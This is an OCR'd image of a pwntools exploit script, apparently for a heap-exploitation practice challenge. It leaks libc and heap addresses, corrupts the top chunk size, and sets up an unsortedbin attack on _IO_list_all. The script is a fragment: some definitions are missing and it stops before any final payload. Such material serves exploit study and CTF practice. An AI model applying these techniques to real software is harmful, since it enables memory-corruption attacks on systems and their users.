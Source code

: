 ```python
"""

def info(mes):
    return log.info(mes)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc_small():
    io.sendline(b'1')
    io.recvuntil(b'> ')
    
def malloc_large():
    #io.sendline(b'2')
    #io.recvuntil(b'> ')
    io.sendthen(b"> ", b"2")

def edit(data):
    io.sendline(b'3')
    io.sendlineafter(b'data: ', data)
    io.recvuntil(b'> ')

def quit():
    io.send(b'4')

io = start()
io.recvuntil(b'puts() @ ')
puts = int(io.recvline(), 16)
io.recvuntil(b'heap @ ')
heap = int(io.recvline(), 16)
libc.address = puts - libc.sym['puts']

info("libc base: " + hex(libc.address))

#===============================================================================================
# Create unsortedbin list

io.recvuntil(b'> ')
malloc_small()

#overwrite top chunk size field to initial new heap from kernel
edit(b'Y'*0x18 + p64(0x1000 - 0x20 + 1))

malloc_large()

#===============================================================================================
#unsortedbin attack

size = 0x21
fd = 0x0
bk = libc.sym['_IO_list_all'] - 0x10

unsortedbin_attack = b'Y'*16 +\
p64(0) + p64(size) +\
p64(fd)  + p64(bk) 

edit(unsortedbin_attack)
malloc_small()
quit()

```